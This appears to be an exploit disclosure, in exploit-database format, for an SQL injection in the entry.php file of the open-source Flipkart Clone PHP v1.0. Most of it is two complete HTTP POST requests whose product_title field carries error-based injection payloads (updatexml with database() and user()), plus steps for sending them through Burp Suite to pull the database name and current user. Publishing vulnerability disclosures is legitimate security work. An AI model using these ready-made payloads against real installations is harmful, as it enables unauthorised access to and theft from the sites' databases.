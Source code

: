 # Flipkart Clone PHP v1.0 - SQL injection

#### Exploit Title: Flipkart Clone PHP v1.0 - SQL injection
#### Date: 08/28/2022
#### Exploit Author: Cosemz
#### Software Link: https://github.com/jigar-sable/Flipkart-Clone-PHP
#### Version: 1.0
#### Tested on: Apache2.4.39 Mysql5.7.26 PHP7.3.4
#### Description：
In the entry.php file, the POST parameters product_title are insufficiently checked and sanitized. An attacker can use these parameters to send payloads for sql injections.

Vulnerability File: /Flipkart-Clone-PHP-main/entry.php

Payload:
```
POST /Flipkart-Clone-PHP-main/entry.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 730
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/Flipkart-Clone-PHP-main/entry.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

product_title=12312123' and updatexml(1,concat(0x7e,database()),0) and '
&product_rating_star_count=11231231123&product_img=123123123&product_img_alt=12312312&product_review_count=123123&product_price=12312312312&product_cutted_price=123123123&product_seller=13123123&product_model=123123123&product_rating_count=12312312&product_brand_logo=12312312&product_desc=123123123&product_color=123123123&product_sales_package=123123123&product_warranty_summary=1231231231&product_domestic_warranty=123123123&product_warranty_covered=123123123&product_warranty_ncovered=123123123&product_generic=123123123&product_manf=123123123&product_origin=123123123&product_highlights=123123123&product_color1=1231231231&product_color2=2312312&submit=
```

Example：

1.Visit Url.

http://127.0.0.1/Flipkart-Clone-PHP-main/entry.php

![1.png](./1.PNG)



2.Submit payload using Burp suite to get database name and current user.

```
POST /Flipkart-Clone-PHP-main/entry.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 730
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/Flipkart-Clone-PHP-main/entry.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

product_title=12312123' and updatexml(1,concat(0x7e,database(),0x7e,user()),0) and '
&product_rating_star_count=11231231123&product_img=123123123&product_img_alt=12312312&product_review_count=123123&product_price=12312312312&product_cutted_price=123123123&product_seller=13123123&product_model=123123123&product_rating_count=12312312&product_brand_logo=12312312&product_desc=123123123&product_color=123123123&product_sales_package=123123123&product_warranty_summary=1231231231&product_domestic_warranty=123123123&product_warranty_covered=123123123&product_warranty_ncovered=123123123&product_generic=123123123&product_manf=123123123&product_origin=123123123&product_highlights=123123123&product_color1=1231231231&product_color2=2312312&submit=
```
![2.png](./2.PNG)





